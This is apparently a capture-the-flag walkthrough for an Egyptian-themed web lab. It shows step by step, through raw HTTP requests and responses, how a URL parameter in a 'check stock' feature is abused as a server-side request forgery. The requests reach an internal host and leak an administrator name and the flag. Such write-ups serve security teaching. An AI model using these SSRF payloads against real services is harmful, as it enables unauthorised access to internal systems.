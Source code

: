 Tomb Entrance  You stand before the magnificent entrance to the tomb of Pharaoh Amenhotep. The massive stone door is adorned with intricate hieroglyphs and symbols of power.

Note: Your browser may display a security warning due to the lab's SSL certificate. This is expected and does not indicate any real security risk.

Tools needed: Burp Suite or equivalent

https://64.225.103.251:5001/

We can find hint in the  hieroglyphs on the site
```
....herein lies the localtomb of the great administrator pharaoh... only those who know the sacred pathways may enter... speak the true name to reveal what lies beyond these walls...
```

Using the "check stock" function makes a request to another domain, seen in the parameter in the request.

```
POST /check-stock HTTP/1.1
Host: 64.225.103.251:5001
Cookie: session=.eJwVzFEKAiEQANC7zLcGsRThBTpA_ctsjjml46LjQkV3b_t_vA9gKCxesBA4uJCyvaahpXaymsieG6GCAVzYh1qQZWMr5kwvW6N9stz7TuhPWFgZM78pgNM2yMBSm3oZZaYG7nia9gY63RqpX1DTNs2xc3wcCk_w_QGmWTEU.aBOYJg.UWSv7_lVin9fLRjC8WdgPIZGJ7s
Content-Length: 69
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: https://64.225.103.251:5001
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://64.225.103.251:5001/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

sarcophagiAPI=http%3A%2F%2Fvalley-of-kings.net%2Fcontents%2Fartifacts
```

```
decoded URL
http://valley-of-kings.net/contents/artifacts
```


From the hint in the heiroglyphs we can guess a URL:
```http://localtomb/pharaoh```

```http
POST /check-stock HTTP/1.1
Host: 64.225.103.251:5001
Cookie: session=.eJwVzFEKAiEQANC7zLcGsRThBTpA_ctsjjml46LjQkV3b_t_vA9gKCxesBA4uJCyvaahpXaymsieG6GCAVzYh1qQZWMr5kwvW6N9stz7TuhPWFgZM78pgNM2yMBSm3oZZaYG7nia9gY63RqpX1DTNs2xc3wcCk_w_QGmWTEU.aBOYJg.UWSv7_lVin9fLRjC8WdgPIZGJ7s
Content-Length: 44
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: https://64.225.103.251:5001
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://64.225.103.251:5001/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

sarcophagiAPI=http%3A%2F%2Flocaltomb/pharaoh
```

We get multiple "admin-buttons" we could use. An also some more hieroglyphs we could translate.
```html
       <div class="admin-buttons" style="display: flex; flex-wrap: wrap; gap: 10px; margin-top: 15px;">
            <form action="/admin-function" method="post">
                <input type="hidden" name="function" value="treasury">
                <button type="submit" style="background-color: #8b4513; color: #f5e1a3; border: none; padding: 8px 12px; border-radius: 3px; cursor: pointer;" class="hieroglyphs">𓃙𓌮𓆣𓀠𓋪𓇁𓍄𓆣𓏏𓉡𓍓𓍄𓍵𓋪𓇌𓊿𓌩𓎛𓆣𓌩𓎛𓉡</button>
            </form>
            
            <form action="/admin-function" method="post">
                <input type="hidden" name="function" value="servants">
                <button type="submit" style="background-color: #8b4513; color: #f5e1a3; border: none; padding: 8px 12px; border-radius: 3px; cursor: pointer;" class="hieroglyphs">𓆡𓏏𓌩𓏏𓆑𓆣𓋪𓄁𓆣𓍄𓋝𓏏𓌩𓎛𓉡</button>
            </form>
            
            <form action="/admin-function" method="post">
                <input type="hidden" name="function" value="tribute">
                <button type="submit" style="background-color: #8b4513; color: #f5e1a3; border: none; padding: 8px 12px; border-radius: 3px; cursor: pointer;" class="hieroglyphs">𓄀𓆣𓋏𓊿𓍄𓍷𓋪𓇁𓍄𓌮𓈬𓍓𓎛𓆣𓉡</button>
            </form>
            
            <form action="/pharaoh/bfsifj5mi3/secrettomb" method="get">
                <button type="submit" style="background-color: #8b4513; color: #f5e1a3; border: none; padding: 8px 12px; border-radius: 3px; cursor: pointer; font-weight: bold;" class="hieroglyphs">𓏬𓋏𓋏𓆣𓉡𓉡𓋪𓄁𓆣𓋏𓍄𓆣𓎛𓋪𓇁𓊿𓋫𓈬</button>
            </form>
            
            <form action="/admin-function" method="post">
                <input type="hidden" name="function" value="monuments">
                <button type="submit" style="background-color: #8b4513; color: #f5e1a3; border: none; padding: 8px 12px; border-radius: 3px; cursor: pointer;" class="hieroglyphs">𓃦𓍖𓏏𓌩𓋪𓆡𓊿𓌩𓍓𓋫𓆣𓌩𓎛𓉡</button>
            </form>
        </div>
```

In order top-bottom:
𓃙𓌮𓆣𓀠𓋪𓇁𓍄𓆣𓏏𓉡𓍓𓍄𓍵𓋪𓇌𓊿𓌩𓎛𓆣𓌩𓎛𓉡 = View Treasury Contents
𓆡𓏏𓌩𓏏𓆑𓆣𓋪𓄁𓆣𓍄𓋝𓏏𓌩𓎛𓉡 = Manage Servants
𓄀𓆣𓋏𓊿𓍄𓍷𓋪𓇁𓍄𓌮𓈬𓍓𓎛𓆣𓉡 = Record Tributes
𓃦𓍖𓏏𓌩𓋪𓆡𓊿𓌩𓍓𓋫𓆣𓌩𓎛𓉡 = Plan Monuments

The third buttons has an interesting action
```html
<form action="/pharaoh/bfsifj5mi3/secrettomb" method="get">
```

Make a new request to that endpoint:
```http
POST /check-stock HTTP/1.1
Host: 64.225.103.251:5001
Cookie: session=.eJwVzFEKAiEQANC7zLcGsRThBTpA_ctsjjml46LjQkV3b_t_vA9gKCxesBA4uJCyvaahpXaymsieG6GCAVzYh1qQZWMr5kwvW6N9stz7TuhPWFgZM78pgNM2yMBSm3oZZaYG7nia9gY63RqpX1DTNs2xc3wcCk_w_QGmWTEU.aBOYJg.UWSv7_lVin9fLRjC8WdgPIZGJ7s
Content-Length: 66
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: https://64.225.103.251:5001
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://64.225.103.251:5001/
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive

sarcophagiAPI=http%3A%2F%2Flocaltomb/pharaoh/bfsifj5mi3/secrettomb
```

```http
HTTP/1.1 200 OK
Server: nginx/1.27.4
Date: Thu, 01 May 2025 16:15:04 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 676
Connection: keep-alive
Vary: Cookie

<div class="secret-tomb" style="font-family: 'IM Fell English SC', serif";>
    <h3>The Secret Tomb</h3>
    <p class="admin-warning" style="color: #c4512b; font-weight: bold;">HIGHLY RESTRICTED AREA - UNAUTHORIZED ACCESS DETECTED</p>
    
    <div style="margin: 20px 0; padding: 20px; border: 2px dashed #8b4513; background-color: #f9e5a1; text-align: center;">
        <h4 style="color: #c4512b;">ADMINISTRATOR INFORMATION</h4>
        <p>Authentication required to enter the inner chamber.</p>
        <p>Administrator name:</p>
        <p id="sacred-name" style="font-size: 24px; font-weight: bold; color: #8b4513; letter-spacing: 2px;">Seti-Thutmose-the-Great</p>
</div>
```

Sacred name = Seti-Thutmose-the-Great
![](../img/TLTOPA_Speak_Name.png)

![](../img/TLTOPA_Solved.png)
Flag: O24{4nkh_th3_k3y_0f_l1f3_unl0ck5_7h3_s4cr3d_t0mb}
